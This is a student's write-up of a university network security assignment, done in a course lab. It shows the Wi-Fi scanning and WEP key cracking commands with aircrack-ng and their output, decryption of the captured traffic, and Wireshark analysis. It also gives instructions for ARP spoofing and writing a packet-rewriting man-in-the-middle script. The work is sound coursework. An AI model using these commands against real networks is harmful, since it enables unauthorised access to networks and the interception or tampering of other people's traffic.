


# Network Security - Assignment 2

Notes for this assignment:

* My Seup:
	* Macbook Pro 15''
	* Virtualbox 5.1.6
	* Ubuntu 16.04 LTS
	* Wireless USB Adapter (Alfa AWUS036NH 2000mW)
	* Known issue with Macbook Pro and USB power supply:
		* If your Macbook's power supply only relies on the battery, then your USB ports do not provide enough power for the Wireless USB Adapter. Fix: Plug in your external power supply when using the Wireless USB Adapter or use an active USB Hub.
	* To make the Wireless USB Adapter available to Virtualbox, just plug it in and on the top bar, selecet "Devices" -> "USB" and check the WLAN entry for the adapter (i.e. Ralink 802.11 n WLAN)
	* Checking in Ubuntu if the Wireless USB Adapter is working:
	```
	cs@cs-VirtualBox:~$ sudo lshw -C network
	  *-network               
	       description: Ethernet interface
	       product: 82540EM Gigabit Ethernet Controller
	       vendor: Intel Corporation
	       physical id: 3
	       bus info: pci@0000:00:03.0
	       logical name: enp0s3
	       version: 02
	       serial: 08:00:27:59:8a:48
	       size: 1Gbit/s
	       capacity: 1Gbit/s
	       width: 32 bits
	       clock: 66MHz
	       capabilities: pm pcix bus_master cap_list ethernet physical tp 10bt 10bt-fd 100bt 100bt-fd 1000bt-fd autonegotiation
	       configuration: autonegotiation=on broadcast=yes driver=e1000 driverversion=7.3.21-k8-NAPI duplex=full ip=10.0.2.15 latency=64 link=yes mingnt=255 multicast=yes port=twisted pair speed=1Gbit/s
	       resources: irq:19 memory:f0000000-f001ffff ioport:d010(size=8)
	  *-network
	       description: Wireless interface
	       physical id: 1
	       bus info: usb@1:2
	       logical name: wlx00c0ca5a50a5
	       serial: 00:c0:ca:5a:50:a5
	       capabilities: ethernet physical wireless
	       configuration: broadcast=yes driver=rt2800usb driverversion=4.8.0-36-generic firmware=0.29 link=no multicast=yes wireless=IEEE 802.11
    ```
    * Checking the network interfaces
    ```
    cs@cs-VirtualBox:~$ sudo ifconfig
		enp0s3    Link encap:Ethernet  HWaddr 08:00:27:59:8a:48  
		          inet addr:10.0.2.15  Bcast:10.0.2.255  Mask:255.255.255.0
		          inet6 addr: fe80::f230:387:60ab:e8e8/64 Scope:Link
		          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
		          RX packets:2531 errors:0 dropped:0 overruns:0 frame:0
		          TX packets:1454 errors:0 dropped:0 overruns:0 carrier:0
		          collisions:0 txqueuelen:1000 
		          RX bytes:2831772 (2.8 MB)  TX bytes:152355 (152.3 KB)

		lo        Link encap:Local Loopback  
		          inet addr:127.0.0.1  Mask:255.0.0.0
		          inet6 addr: ::1/128 Scope:Host
		          UP LOOPBACK RUNNING  MTU:65536  Metric:1
		          RX packets:279 errors:0 dropped:0 overruns:0 frame:0
		          TX packets:279 errors:0 dropped:0 overruns:0 carrier:0
		          collisions:0 txqueuelen:1 
		          RX bytes:23113 (23.1 KB)  TX bytes:23113 (23.1 KB)

		wlx00c0ca5a50a5 Link encap:Ethernet  HWaddr 00:c0:ca:5a:50:a5  
		          UP BROADCAST MULTICAST  MTU:1500  Metric:1
		          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
		          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
		          collisions:0 txqueuelen:1000 
		          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
    ```
    * Installing packags for this assignment
    ```
    cs@cs-VirtualBox:~$ sudo apt-get install aircrack-ng wireshark dsniff
    ```
    * Ubuntu is using its own network manager which could prevent us from using the before mentioned tools. Therefore, we just disable it.
    For Ubuntu 13.10+:
    ```
    cs@cs-VirtualBox:~$ sudo service network-manager stop
    ```
    Older versions of Ubuntu:
    ```
    cs@cs-VirtualBox:~$ sudo /etc/init.d/network-manager stop
    ```
    * Putting the Wireless USB Adapter into monitor mode:
    ```
    cs@cs-VirtualBox:~$ sudo airmon-ng stop mon0


		Interface	Chipset		Driver

		mon0		Ralink RT2870/3070	rt2800usb - [phy2] (removed)
		wlx00c0ca5a50a5		Ralink RT2870/3070	rt2800usb - [phy2]

	cs@cs-VirtualBox:~$ sudo airmon-ng start wlx00c0ca5a50a5


		Found 4 processes that could cause trouble.
		If airodump-ng, aireplay-ng or airtun-ng stops working after
		a short period of time, you may want to kill (some of) them!

		PID	Name
		778	avahi-daemon
		795	avahi-daemon
		2321	wpa_supplicant
		3540	dhclient


		Interface	Chipset		Driver

		wlx00c0ca5a50a5		Ralink RT2870/3070	rt2800usb - [phy2]
						(monitor mode enabled on mon0)
    ```
    * Let the fun begin and see what is on the network:
    ```
    cs@cs-VirtualBox:~$ sudo airodump-ng mon0
    ```


1. The WPA2 suite of security protocols is a (currently) secure replacement for WEP and WPA. It can operate in two modes: WPA2-Enterprise, where each client authenticates against a RADIUS master server and then exchange keys, and WPA2-Personal, or pre-shared key mode, where every client knows the network's master key. Do you think a secured network running in WPA2 pre-shared key mode using a strong random passphrase is secure against clients sniffing traffic in the network? If so, why do you think so? If not, explain in general terms the principle behin an attack. Note that you do not need to have a strong understanding of the cryptography used in WPA2; use your intuition. Write your answer to a faile called exercise1.

	* My intuition says that it is a trivial task for other clients of a WPA2 PSK network to sniff other client's traffic. They all use the same master key to authenticate with the network and I guess it is also used for the encrpytion of packets send over the air. Sending packets over the air is essentially the same as the packet routing mechanism of a network hub with physically attached network cables. Both are using some kind of broadcasting of packets to all clients but the client is responsible for only picking packets which are meant for his address. When a wifi client is using the PSK of a AP, it is the same idea as if he would plug in a network cable into a hub. Therefore I guess that after this step all well known attacks which are suitable for hub scenarios also work with a WPA2 PSK network.
	After doing some research on the security section of stackexchange, my intuition seems to have been right on point:

		* https://security.stackexchange.com/questions/8591/are-wpa2-connections-with-a-shared-key-secure
		* https://security.stackexchange.com/questions/108408/sniffing-wpa2-psk-traffic-with-the-key-but-without-association

2. a) Create a folder called exercise2. Document all the steps you take in a file in this folder called exercise2a. Now let's see what's on the network: ``` # airodump-ng mon0 ```. This will show you a listing of wireless networks, their security level, the access points' MAC addresses (BSSID), channel they operate on (CH), and some other information. **List the networks you see.** You do not have to list duplicate network names. **Identify your target network's name, the access points's MAC address, and channel.** This list will also show you wireless network clients ("stations"). Using the information you have on the target network, identify those clients that are connected to the target network. **Write down their MAC addresses. When you look at the MAC addresses, does anything strike you as interesting or peculiar? If so, what? Try to explain it.**
	
	* ```
		 cs@cs-VirtualBox:~$ airodump-ng mon0

		 CH 12 ][ Elapsed: 4 mins ][ 2017-04-20 12:40                                         
                                                                                                                                                      
		 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
		                                                                                                                                                      
		 64:F6:9D:10:95:B0   -1        0        0    0   6  -1                    <length:  0>                                                                
		 A8:9D:21:6D:7B:E0  -41       34      185    0   1  54e  WPA2 CCMP   MGT  eduroam                                                                     
		 C4:E9:84:D7:70:67  -53       66     1817    0   1  54e  WEP  WEP         netsec-wep                                                                  
		 88:1D:FC:55:96:63  -55       44        0    0  11  54e  OPN              eduroam-config                                                              
		 88:1D:FC:55:96:60  -55       51      114    0  11  54e  WPA2 CCMP   MGT  eduroam                                                                      
		 88:1D:FC:42:22:73  -66       21        0    0   1  54e  OPN              eduroam-config                                                               
		 88:1D:FC:42:22:70  -66       21        3    0   1  54e  WPA2 CCMP   MGT  eduroam                                                                      
		 E8:94:F6:BE:64:27  -74       15        1    0   6  54e. WPA2 CCMP   PSK  Noes 2,4                                                                     
		 00:0C:42:97:B7:6C  -80        2        0    0  13   1 . OPN              Breng_Mobile_Hotspot                                                         
		 00:0C:F6:F1:7A:D8  -82        1        2    0  11  54e. WPA2 CCMP   PSK  Gangbazen1                                                                   
		 C0:A0:BB:4A:AC:7C  -78        6        0    0   8  54e  WPA2 CCMP   PSK  Noud WiFi 2.4 GHz                                                            
		 30:B5:C2:AB:DD:A2  -81        2        0    0   8  54e. WPA2 CCMP   PSK  Victernet                                                                    
		 A8:9D:21:B2:E3:00   -1        0        0    0   6  -1                    <length:  0>                                                                 
		 64:D1:A3:1F:80:18  -77        6        0    0   1  54e. WPA2 CCMP   PSK  Sitecom1F8018                                                                
		 C4:6E:1F:0C:B0:9B  -80        6        1    0   4  54e  WPA2 CCMP   PSK  TP-LINK_2.4GHz_0CB09B                                                        
		 64:D1:A3:26:A9:B6  -76        4        0    0   1  54e  WPA2 CCMP   PSK  Sitecom26A9B6                                                                
		 00:2A:10:93:E0:D0   -1        0        0    0   1  -1                    <length:  0>                                                                 
		 A4:2B:B0:CA:79:04  -80        5        0    0   7  54e. WPA2 CCMP   PSK  TP-LINK_7904                                                                 
		 F8:04:2E:32:A5:B8  -79        8        0    0   1  54e  WPA2 CCMP   PSK  UPC242466842                                                                 
		 A8:9D:21:6D:7B:E3  -43       31        0    0   1  54e  OPN              eduroam-config                                                               
		 00:1C:DF:8A:03:D9   -1        0        0    0   6  -1                    <length:  0>                                                                 
		                                                                                                                                                       
		 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                             
		                                                                                                                                                       
		 64:F6:9D:10:95:B0  CC:25:EF:AF:73:B0  -76    0 -12      0        2                                                                                    
		 (not associated)   CC:3A:61:8F:CB:C5  -36    0 - 1      0        3  Testing12,RaspberryAPI                                                            
		 (not associated)   64:BC:0C:82:27:8F  -42    0 - 1      0        1                                                                                    
		 (not associated)   AC:7B:A1:A4:D9:C7  -50    0 - 1      0        1                                                                                    
		 (not associated)   E8:50:8B:61:72:89  -52    0 - 1      0        3                                                                                    
		 (not associated)   40:78:6A:D3:18:4B  -56    0 - 6      0       17  EmslandTel.Net,dd-wrt,WiFi_Kolping,ASUS_NDL,een steen,Messung,NZ@McD1,Please inser
		 (not associated)   70:4D:7B:61:06:C4  -62    0 - 1      0        4  ASUS_NDL                                                                          
		 (not associated)   C0:EE:FB:4A:96:5C  -64    0 - 1      0        3                                                                                    
		 (not associated)   8C:1A:BF:8A:6B:EE  -76    0 - 1      0        1  eduroam                                                                           
		 (not associated)   B8:53:AC:9F:04:73  -76    0 - 1      0        2  eduroam                                                                           
		 (not associated)   24:0A:64:A7:A9:DE  -76    0 - 1      0        1                                                                                    
		 (not associated)   EA:91:09:F0:29:25  -76    0 - 1      0        2                                                                                    
		 (not associated)   D4:0B:1A:5E:26:E2  -76    0 - 1      0        4

		 cs@cs-VirtualBox:~$ sudo airodump-ng -c 1 --bssid C4:E9:84:D7:70:67 -w outputnetsec mon0

		 CH  1 ][ Elapsed: 13 mins ][ 2017-04-20 12:56                                         
		                                                                                                                                                      
		 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
		                                                                                                                                                      
		 C4:E9:84:D7:70:67  -34  66     4571   182797  198   1  54e  WEP  WEP         netsec-wep                                                              
		                                                                                                                                                      
		 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            
		                                                                                                                                                      
		 C4:E9:84:D7:70:67  00:0F:C9:0C:F7:93  -54   54e-54e    22    47190                                                                                    
		 C4:E9:84:D7:70:67  00:0F:C9:0C:F7:8C  -56   54e-54e    33    91402                                                                                    
		 C4:E9:84:D7:70:67  00:0F:C9:0C:EE:ED  -64   54e-11e   930    62588                                                                                    
		 C4:E9:84:D7:70:67  00:C0:CA:66:01:F9   -1    1 - 0      0       24 

	The target network:
	* Network Name: netsec-wep 
	* AP's MAC address/BSSID: C4:E9:84:D7:70:67
	* Channel: 1
	
	Clients connected to the target network:
	* 00:0F:C9:0C:F7:93
	* 00:0F:C9:0C:F7:8C
	* 00:0F:C9:0C:EE:ED
	* 00:C0:CA:66:01:F9	

	The first three MAC addresses are interesting because their format tells me that the corresponding wifi clients were all built by the same manufacturer. A quick lookup on https://regauth.standards.ieee.org/standards-ra-web/pub/view.html#registries with the hex values of "00-0F-C9" reveals that the manufacturers name is "Allnet GmbH", a german company based in munich. I suppose that those three clients are part of the whole setup of this assignment and that Allnet sponsored some wifi cards for the computer science department some time ago. It's just a wild guess. The last MAC address seems to be the address of my own USB Wifi adapter (00-C0-CA = ALFA, INC.).


	b) Now, let's go ahead and crack this network. First, exit airodump-ng. Document all the steps you take here in a file called exercise2b. Cracking WEP is done by capturing enough packets from a network to enable some cryptographic attacks on the algorithms used. Capturing is also done by airodump-ng: ``` # airodump-ng -c <channel> --bssid <target BSSID> -w outputnetsec mon0 ```
	Leave this running. Collecting enough packets in the file specified will take a few minutes. Open the manual page for aircrack-ng and read what it does. Identify what option to use to select the target network. This is the only option you really need, but feel free to play around. **Just document what you do.** Run aircrack-ng with the option you need, and the file(s) to which airodump-ng is currently writing its output. **Once again, document what you use.** When the attack finally succeeds, you are provided with the WEP key. **Also document this.** Leave airodump to capture some more data for good measure, 200.000 frames should be more than enough for the next exercise. Then, exit airodump and put the wireless card back into normal mode ``` airmon-ng stop mon0 ```
	* ```
		cs@cs-VirtualBox:~$ sudo airodump-ng -c 1 --bssid C4:E9:84:D7:70:67 -w outputnetsec mon0

		 CH  1 ][ Elapsed: 13 mins ][ 2017-04-20 12:56                                         
		                                                                                                                                                      
		 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
		                                                                                                                                                      
		 C4:E9:84:D7:70:67  -34  66     4571   182797  198   1  54e  WEP  WEP         netsec-wep                                                              
		                                                                                                                                                      
		 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            
		                                                                                                                                                      
		 C4:E9:84:D7:70:67  00:0F:C9:0C:F7:93  -54   54e-54e    22    47190                                                                                    
		 C4:E9:84:D7:70:67  00:0F:C9:0C:F7:8C  -56   54e-54e    33    91402                                                                                    
		 C4:E9:84:D7:70:67  00:0F:C9:0C:EE:ED  -64   54e-11e   930    62588                                                                                    
		 C4:E9:84:D7:70:67  00:C0:CA:66:01:F9   -1    1 - 0      0       24 

		cs@cs-VirtualBox:~$ aircrack-ng outputnetsec-01.cap
			Opening outputnetsec-01.cap
			Read 571974 packets.

			   #  BSSID              ESSID                     Encryption

			   1  C4:E9:84:D7:70:67  netsec-wep                WEP (182798 IVs)

			Choosing first network as target.

			Opening outputnetsec-01.cap
			Attack will be restarted every 5000 captured ivs.
			Starting PTW attack with 182798 ivs.


			                                 Aircrack-ng 1.2 beta3


			                 [00:00:03] Tested 1535537 keys (got 182798 IVs)

			   KB    depth   byte(vote)
			    0    0/  1   C0(252928) 0D(202752) C6(202752) 05(201216) 55(199424) 
			    1    0/  1   FF(240128) 2C(198144) FD(198144) 8D(197888) 6B(197376) 
			    2    0/  1   EE(251136) 8D(199424) 16(198144) 8A(198144) B4(197120) 
			    3    0/  1   42(251392) 1F(205056) CA(200960) 54(200192) 5B(199936) 
			    4    0/  1   21(249600) FE(201984) 92(201728) EF(201472) D4(198912) 
			    5    0/  1   61(262656) FF(199936) 55(198656) 3F(197120) FA(196864) 
			    6    0/  6   27(199680) 5C(198912) BA(198144) D8(197888) 58(197120) 
			    7    0/  1   4A(244736) E5(207104) DC(199680) D0(197376) A9(197120) 
			    8    0/  1   1A(252160) 14(200960) 13(200704) 45(199936) E4(199168) 
			    9    0/  1   44(247040) 45(202752) B8(197376) 16(197120) E2(197120) 
			   10    0/  1   05(203008) 4F(202496) EA(197888) FC(197888) 73(197376) 
			   11    0/  1   6C(204032) 95(199680) 20(198912) BE(197632) 2A(196352) 
			   12    0/  1   20(221052) 7C(197480) 45(196096) 28(195304) 6A(194212) 

			             KEY FOUND! [ C0:FF:EE:42:21:61:1E:4A:1A:44:6E:2F:20 ] 
				Decrypted correctly: 100% 

3. a) We now have the WEP key, but we also have a generous chunk of data from the network to work with.	Let's work with that and see what we can learn from the network. In exercise 2 you had airodump-ng write its output to a few files, all prefixed with "outputnetsec". In the folder where you ran airodump, you should now see at least a file called outputnetsec-01.cap. Start wireshark. Since we're not going to capture anything, you can run it as a normal user. In wireshark, open the file outputnetsec-01.cap. **Create a folder called exercise3. Describe what you see in wireshark, after opening the capture file, in a file called exercise3a in that folder. Try to explain why there is very little useful information in this capture file.**

	* The main subtypes of the IEEE 802.11 protocol being used here are:
		* 802.11 Block Ack Req (0x0018, wireshark filter: wlan.fc.type_subtype == 0x0018). When a station intend to use Block ACK mechanism to transmit QoS data, it first check to see whether the peer station is capable of Block ACK. Then send block of QoS data frames & requesting all QoS data frame to ACK by sending Block ACK Request (BAR) to receiving station.
			* 

		* 802.11 Block Ack (0x0019, wireshark filter: wlan.fc.type_subtype == 0x0019). This is used to Acknowledge a block of QoS data frames instead of acknowledge each unicast frame independently.
			* 

		* 802.11 Acknowledgment (0x001d, wireshark filter: wlan.fc.type_subtype == 0x001d). Since 802.11 stations are not able to Tx & Rx at the same time, to ensure a transmitted unicast frame delivered correctly it is expected an “ACK” from receiving station.
			* 

		* 802.11 Clear-to-send (0x001c, wireshark filter: wlan.fc.type_subtype == 0x001c). When a tranmitting station send RTS, the receiving device (typically AP) should send CTS control frame.
			* 

		* 802.11 Request-to-send (0x001b, wireshark filter: wlan.fc.type_subtype == 0x001b). RTS/CTS is a mechanism that perform a NAV (Network Allocation Vector) distribution and helps prevent collision from occurring. When this enabled, everytime a station wants to send a frame, it must perform RTS/CTS exchange prior to normal data transmission. Duration of RTS frame specify how much time it require for the data transmission (so listening station set their NAV timers to this value)
			* 

		* 802.11 Probe Response (0x0005, SSID=netsec-wep, wireshark filter: wlan.fc.type_subtype == 0x0005). See https://mrncciew.com/2014/10/27/cwap-802-11-probe-requestresponse/ for a nice explanation. It's mainly used for scanning networks.
			* 

		* 802.11 QoS Data (0x0028; wireshark filter: wlan.fc.type_subtype == 0x0028). A QoS Data frame.
			* 

		* Information regarding the different subtypes has been used from: https://mrncciew.com/2014/10/13/cwap-802-11-data-frame-types/ and https://mrncciew.com/2014/10/02/cwap-802-11-control-frame-types/

		Given the fact that we only got four active stations/clients on the target network (myself included as a client) we can assume that only a fraction of the network traffic is containing actual data. Most of the traffic is due to 802.11 control frame types (https://mrncciew.com/2014/10/02/cwap-802-11-control-frame-types/). I guess the interesting traffic parts which contain actual data are the 802.11 QoS data frames.

	b) There is some useful information, however, and we are going to try to extract that. Wireshark has several very nice analysis tools built into it. They can be accessed in the **Analyze** and **Statistics** menus. Play around with the tools in the top part of the **Statistics** menu. **Document which clients appear to be most active on the network and whom they seem to be communicating with, in a file called exercise3b. Also add the output from the Comments Summary tool, and try to explain why the Protocol Hierarchy looks the way it does.** If you see more than a few very active clients, limit your description to the clients you identified in the previous exercise as connected to the network. If you protocol hierarchy contains more than a few reasonably explainable protocols, there's something wrong with your encrypted capture.
	
	* By using the conversations tab of the statistics option, we get all kinds of conversations between address A and B. If we sort the conversations by the amount of bytes and packets transmitted between the addresses, we can easily see which clients were the most active.
		* 

		The most active clients are therefore:
		* 00:0f:c9:0c:ee:ed (Allnet_0c:ee:ed)
		* 00:0f:c9:0c:f7:8c (Allnet_0c:f7:8c)
		* 00:0f:c9:0c:f7:93 (Allnet_0c:f7:93)
		* c4:e9:84:d7:70:67 (Tp-LinkT_d7:70:67)

		Interesting conversations:
		* Allnet_0c:ee:ed -> Allnet_0c:f7:8c (187.441 packets)
		* Allnet_0c:f7:8c -> Allnet_0c:f7:93 (182.309 packets)
		* Allnet_0c:f7:8c -> Tp-LinkT_d7:70:67 (86.380 packets)
		* Allnet_0c:f7:93 -> Tp-LinkT_d7:70:67 (45.869 packets)
		* Allnet_0c:ee:ed -> Tp-LinkT_d7:70:67 (34.087 packets)
		* Allnet_0c:f7:8c -> Allnet_0c:f7:8c (14.418 packets)
		* Allnet_0c:ee:ed -> Allnet_0c:f7:93 (5.585 packets)
		* Allnet_0c:ee:ed -> Allnet_0c:ee:ed (2.873 packets)

		* 

	If we open the protocol hierarchy option, then we can see that all frames contain the "IEEE 802.11 wireless LAN" protocol. This protocol is divided into 0.3% "IEEE 802.11 wireless LAN management frame" and 29.3%	"Data" based on the amount of packets. If we look at the pure amount of bytes, then the "IEEE 802.11 wireless LAN management frame" is making 0.1% and the "Data" part is taking up 93.2% of all bytes. One interpretation could be that most of the packets captured do not contain actual data but are responsible for different management tasks of the wireless network traffic like probe requests, acknowledgements and so forth. Also their pure amount of packets is larger than the packets which contain data, they do not take the majority compared to the amount of bytes. So, even the amount of packets containing data is small, they take up the majority of bytes taken.	

	c) Now, to solve the problem identified in exercise3a, aircrack-ng has the tool airdecap-ng. Open its manual page (man airdecap-ng), identify what options you need to pass, then run it with these options on outputnetsec-01.cap. This will create a file outputnetsec-01-dec.cap. Close the file you currently have open in wireshark, then open this new file. **Once again, describe what you see in wireshark, now in exercise3c. Explain why this is different from what you saw in exercise3a.**
	* ```
		cs@cs-VirtualBox:~$ airdecap-ng -e 'netsec-wep' -w C0:FF:EE:42:21:61:1E:4A:1A:44:6E:2F:20 outputnetsec-01.cap 
			Total number of packets read        571974
			Total number of WEP data packets    183203
			Total number of WPA data packets         0
			Number of plaintext data packets         3
			Number of decrypted WEP  packets    183187
			Number of corrupted WEP  packets         0
			Number of decrypted WPA  packets         0

	* 	
	If we take a look at the decrypted protocol hierarchy, we can see that there is no 802.11 frame any more. The default behaviour of airdecap removes the 802.11 header and decrypts its data. Therefore, we now see the protocols which were wrapped inside the data section of the 802.11 frames which are ethernet, IPv4, ARP, UDP and TCP. While 802.11 works with MAC addresses which were the only address types we saw before in the capture file,  we now can see a mix of MAC and IP addresses due to the different protocols. If we want to know the IP addresses of the most active clients we identified before, we just have to take a look into the ARP packets. 

	d) **Similar to exercise3b, using the statistics tools, document which clients are communicating with whom, in a file called exercise3d. Also include their IP addresses. Something should immediately strike you as peculiar when doing this. What do you think is going on here?** You should be able to go into much more details this time. Therefore, this time, also zoom in on the conversations themselved (if you right-click on a conversation in the output from the Conversations tool, you can apply this conversation as a filter so that you only see its packets). There will likely be more than just a few conversations. Pick a few larger ones, or ones that look interesting. **Briefly describe what each conversation is, whether it looks interesting, and why.**
	* 
	* 	
	* 	
	* 
	* 
	* 
	* 

	As we look at the statistics of the ethernet protocol, we can see again the three MAC addresses which were the most active in the encrypted cap-file, namely:
	* 00:0f:c9:0c:ee:ed
	* 00:0f:c9:0c:f7:8c
	* 00:0f:c9:0c:f7:93

	Although we only got these three MAC addresses, we have a lot more IP addresses present when we look at the IPv4 statistics. The following three IP addresses seem to be the most active:
	* 192.168.84.20
	* 192.168.84.10
	* 192.168.84.60	

	The odd thing here is that these three IP addresses only communicate with each other over the TCP protocol which takes the most percentage of the whole traffic captured, namely 98.85%. All other ip addresses in the range of 192.168.84.* communicate with each other over UDP which makes 0.87% of the traffic. The odd thing is that we only got three MAC addresses and a lot more IP addresses. The tcp packets contain data that I cannot interpret but the UDP packets on the other hand contain data such as "Insert your student numbers in the following places. Do not change the packet length. Leave superfluous letters as padding..Student1: XXXXXXX XXXXX.Student 2: YYYYYYY YYYYY. Student 3: ZZZZZZZ ZZZZZ". My assumption is that the three clients are running some kind of program which is communicating over TCP and are creating IP addresses on the fly and then exchange UDP packets between those two newly created IP addresses. By creating enough IP addresses with different destination and source addresses for the UDP packets, we can apply arp spoofing without interfering with other student groups if every group gets a specific IP address assigned for arp spoofing. I guess we also have to alter the data part of the UDP packets later on when arp spoofing is working. That would make sense. 


	e) **There should be at least one connection which is consistently being rejected. See if you can find it. Document how you did this in exercise3e.** Not you can filter out conversations which you are not interested in by simply right-clicking on that conversation in the Conversations tool, and preparing a filter. Filter out multiple conversations by using the ... and not ... entry on each. Then, apply the filter. Most of the time, you'll simply want to build filters using the graphical interface, but for more documentation on their syntax, see https://www.wireshark.org/docs/wsug_html_chunked/ChWorkBuildDisplayFilterSection.html.
	* Let's take a look at the IPv4 statistics again
		* 
		The first two conversations, 192.168.84.20 <-> 192.168.84.60 and 192.168.84.10 <-> 192.168.84.60 seem to be normal and are responsible for most the most packets exchanged. The third conversation however, 192.168.84.10 <-> 192.168.84.20 seems odd because there is a drastic drop in the amount of packages being exchanged. So, if we take a look at this conversation in detail, we'll get alot of rejected tcp connections. 192.168.84.20 is sending a tcp package with the SYN flag to 192.168.84.10 to start a conversation and gets a tcp package with [RST, ACK] flags as a response. Different articles pointed out that a RST/ACK response means that the device is acknowledging whatever data was sent in the previous packet(s) in the sequence with an ACK and then notifying the sender that the connection has closed with the RST. The device is simply combining the two packets into one, just like a SYN/ACK. A RST/ACK is usually not a normal response in closing a tcp session, but it's not necessarily indicative of a problem either. An example scenario of sending RST/ACK is when the receiving host is not listening on the destination TCP port. 
		* 

	f) Finally, there should be several conversations which, when you look at the packets' contents, are obviously interesting for you. Find them. **Document the process in exercise3f, and also include why you think they are interesting.**
	* Answer

4. a) Run wireshark with root rights, and let it sniff you wireless interface. It should not use either monitor or promiscuous mode. Ping one of the other clients you identified in exercise 3, and see whether these pings show up in wireshark. Note that you may have to specify which interface to ping on, use the manual page (man ping) to figure out how. If this works, enable IP forwarding: ``` # echo 1 > /proc/sys/net/ipv4/ip_forward ```. If using sudo, you will need a slighty different command: ``` $ sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward" ``` or ``` $ echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward ```	This is due to nuances in when shell redirection happens. Now you can use arpspoof to trick the sending endpoint in the conversation to send its data to you instead of the receiving endpoint, and your machine will forward the data. Use the manual page of arpspoof (man arpspoof) for details on how to use it. Note that you need to keep arpspoof running as long as you want traffic to be redirected, and you should close it down as soon as you're done. Note that you will need to tell arpspoof what interfaces to use, since that determines how and where it spoofs the targets. Verfiy that the traffic of that conversation is flowing through your machine. You should see, among other things, two identical sets of IPv4 packets, interleaved. One set should have as a source address the MAC address of the endpoint you just started ARP spoofing to, and as destination address your own MAC address. The other set should have as source address your own MAC address and as destination address the MAC address of the original receiving endpoint of the conversation. If you do not see the second set, IP forwarding is not working. If you do not see the first set, spoofing is not working. **If this works, turn off arpspoof. Save the wireshark capture to a file called exercise4a.cap in the folder exercise4. Document the commands you used in a file called exercise4a, and explain why you're seeing these two sets of packets in wireshark.** Turn off IP forwarding: ``` # echo 0 > /proc/sys/net/ipv4/ip_forward ``` or ``` $ sudo sh -c "echo 0 > /proc/sys/net/ipv4/ip_forward" ``` or ``` $ echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward ```
	* Answer

	b) Start with your implementation of the sniffer from exercise 4 of last week, or use the implementation provided. **Rename it to mitm.py, and place it in the folder exercise4. Change it so that it rewrites the packets according to the instructions contained inside the packet, then sends them on.** For this, you will need to make several changes:

		* You will need to bind the socket to the wireless interface.
		* You will need to select the right packets (based on e.g. the combination of ehternet source, destination, IP destination, and port)
		* You will need to find and replace the destination MAC address in the ethernet frame.
		* You will need to find the correct part of the packet payload and rewrite it.
		* You will need to find and zero out the packet checksum in the packet header in each frame. For this protocol, the checksum is optional, and a zeroed checksum indicates it's not being used. Not as sophisticated as recalculating the checksum, but just as effective. If you do not change the checksum, the destination will discard the packet before it reaches the application
		* You will need to use the socket.send() function to send the frame on. The documentation for the socket library does not state this clearyl, but then again, we're not exactly doing legitimate stuff here.

	If you don't feel confident about the above, another option is that you retrieve the payload from each frame, create a different UDP socket, and send the payload on through that socket. Add some print() output to show you, when it runs, that forwarding actually works. Once you've made these adaptions, run the forwarder, and then run wireshark and arpspoof the same way you did in exercise 4a. If everything goes correctly, the following will happen:

		* Your forwarder will rewrite and forward the packets.
		* Wireshark will show you a similar output, i.e. two sets of packets, this time there will be changes in payloads as well as in addresses.
		* The final endpoint will register the modified packets including the changes you've made.
		* The final endpoint will acknowledge receiving a valid modified packet by broadcasint the student numbers in a special packet. This way you have some feedback on whether or not you succeeded, so look out for those with e.g. wireshark

	**Let this run for a few packets, then stop arpspoof and the forwarder. Save the wireshark capture file as exercise4b.cap in the folder exercise4.**
	* Answer

